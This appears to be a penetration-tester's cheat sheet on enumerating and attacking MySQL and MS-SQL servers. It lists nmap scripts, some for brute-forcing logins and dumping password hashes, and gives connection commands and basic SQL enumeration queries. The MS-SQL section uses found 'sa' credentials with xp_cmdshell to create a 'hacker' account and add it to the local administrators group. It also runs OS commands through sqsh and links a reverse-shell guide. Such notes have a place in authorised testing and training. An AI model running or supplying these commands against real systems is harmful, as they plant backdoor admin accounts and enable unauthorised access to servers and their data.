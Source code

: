 MS-SQL and MySQL Enumeration Tools

# MS-SQL and MySQL Enumeration Tools

### mysql
```
$ ls -lh /usr/share/nmap/scripts/ | grep mysql
-rw-r--r-- 1 root root 6.5K Oct 12 09:29 mysql-audit.nse
-rw-r--r-- 1 root root 3.0K Oct 12 09:29 mysql-brute.nse
-rw-r--r-- 1 root root 2.9K Oct 12 09:29 mysql-databases.nse
-rw-r--r-- 1 root root 3.2K Oct 12 09:29 mysql-dump-hashes.nse
-rw-r--r-- 1 root root 2.0K Oct 12 09:29 mysql-empty-password.nse
-rw-r--r-- 1 root root 3.4K Oct 12 09:29 mysql-enum.nse
-rw-r--r-- 1 root root 3.4K Oct 12 09:29 mysql-info.nse
-rw-r--r-- 1 root root 3.7K Oct 12 09:29 mysql-query.nse
-rw-r--r-- 1 root root 2.8K Oct 12 09:29 mysql-users.nse
-rw-r--r-- 1 root root 3.2K Oct 12 09:29 mysql-variables.nse
-rw-r--r-- 1 root root 6.9K Oct 12 09:29 mysql-vuln-cve2012-2122.nse
```

```
$ nmap x.x.x.x -p 3306 -sV --script=
```

Connect manually:
```
mysql -u {username} -p'{password}' \
    -h {remote server ip or name} -P {port} \
    -D {DB name}
```
For example
```
mysql -u root -p'root' \
        -h 127.0.0.1 -P 3306 \
        -D local
```

Basic enumeration:
- `show databases;`
- `list databases;`
- `use <database>;`
- `list tables;`
- `show tables;`
- `SELECT * FROM <table>;*`

### ms-sql
```
$ ls -lh /usr/share/nmap/scripts/ | grep ms-sql
-rw-r--r-- 1 root root 3.8K Oct 12 09:29 broadcast-ms-sql-discover.nse
-rw-r--r-- 1 root root  12K Oct 12 09:29 ms-sql-brute.nse
-rw-r--r-- 1 root root 6.0K Oct 12 09:29 ms-sql-config.nse
-rw-r--r-- 1 root root 3.4K Oct 12 09:29 ms-sql-dac.nse
-rw-r--r-- 1 root root 4.3K Oct 12 09:29 ms-sql-dump-hashes.nse
-rw-r--r-- 1 root root 7.0K Oct 12 09:29 ms-sql-empty-password.nse
-rw-r--r-- 1 root root 5.9K Oct 12 09:29 ms-sql-hasdbaccess.nse
-rw-r--r-- 1 root root  12K Oct 12 09:29 ms-sql-info.nse
-rw-r--r-- 1 root root 3.9K Oct 12 09:29 ms-sql-ntlm-info.nse
-rw-r--r-- 1 root root 4.7K Oct 12 09:29 ms-sql-query.nse
-rw-r--r-- 1 root root 9.2K Oct 12 09:29 ms-sql-tables.nse
-rw-r--r-- 1 root root 6.2K Oct 12 09:29 ms-sql-xp-cmdshell.nse
```
```
$ nmap x.x.x.x -p 1433 -sV --script=exampleScript1.nse,exampleScript2.nse
```
If mssql credentials are found, can use the following nmap script to add a user:
  1. Use nmap mssql script with newly found creds and added a user:
```
$ nmap x.x.x.x -p 1433 -sV --script=ms-sql-xp-cmdshell.nse --script-args mssql.username=sa,mssql.password=poiuytrewq,ms-sql-xp-cmdshell.cmd='net user hacker hacker93 /add'
```
  2. Then added user to admin group with same script:
```
$ nmap x.x.x.x -p 1433 -sV --script=ms-sql-xp-cmdshell.nse --script-args mssql.username=sa,mssql.password=poiuytrewq,ms-sql-xp-cmdshell.cmd='net localgroup administrators hacker /add'
```

Connect manually:
```
$ sqsh -S x.x.x.x -U sa -P password
1> xp_cmdshell 'whoami'
```

or with Impacket:

```
$ /opt/impacket-0.9.21/examples > mssqlclient.py username@x.x.x.x
```

Reference: https://rioasmara.com/2020/05/30/impacket-mssqlclient-reverse-shell/

